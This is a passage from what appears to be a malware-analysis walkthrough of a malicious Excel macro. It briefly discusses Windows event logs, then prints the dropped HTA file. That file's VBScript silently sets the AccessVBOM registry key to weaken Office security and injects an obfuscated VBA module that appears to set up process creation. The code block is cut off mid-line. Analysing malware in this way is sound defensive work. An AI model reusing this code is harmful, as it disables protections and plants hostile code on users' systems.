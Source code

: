 {% embed url="https://www.youtube.com/watch?v=1fSET-gfU6E" %}

### Event log

Logging is one of the best thing that mankind have created.

Windows has a logging system called … with evtx files and a program to view it. You can use other parsers but just use the one from Micro$oft. You can do a parallel analysis with Event Log and chainsaw - a tools that extract suspicious content from evtx file based on rules (like Sigma or Yara).

Sometimes, you will need the event log for full-view about the attack. It can give you some clues about the impacts which macros have made in our systems.

\
// Logging after the macro executed?? Need something about evtx logs.



### Dropped file <a href="#dropped-file" id="dropped-file"></a>

Because we have already known the location of the dropped file after macro execution, we can look up that shitty and see what’s inside. Thanks fully that the macro didn’t delete it.

The file is hta which is html but with a program in it, it can be either VBScript or JScript.

```vba
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "&"Type PRO"&"CESS_INF"&"ORMATION"&Chr(10)&"    hPro"&"cess As "&"Long"&Chr(10)&"    hThr"&"ead As L"&"ong"&Chr(10)&"    dwPr"&"ocessId "&"As Long"&Chr(10)&"    dwTh"&"readId A"&"s Long"&Chr(10)& _
"End Type"&Chr(10)&Chr(10)&"Private "&"Type STA"&"RTUPINFO"&Chr(10)&"    cb A"&"s Long"&Chr(10)&"    lpRe"&"served A"&"s String"&Chr(10)&"    lpDe"&"sktop As"&" String"&Chr(10)&"    lpTi"&"tle As S"&"tring"& _
Chr(10)&"    dwX "&"As Long"&Chr(10)&"    dwY "&"As Long"&Chr(10)&"    dwXS"&"ize As L"&"ong"&Chr(10)&"    dwYS"&"ize As L"&"ong"&Chr(10)&"    dwXC"&"ountChar"&"s As Lon"&"g"&Chr(10)&"    dwYC"&"ountChar"& _
```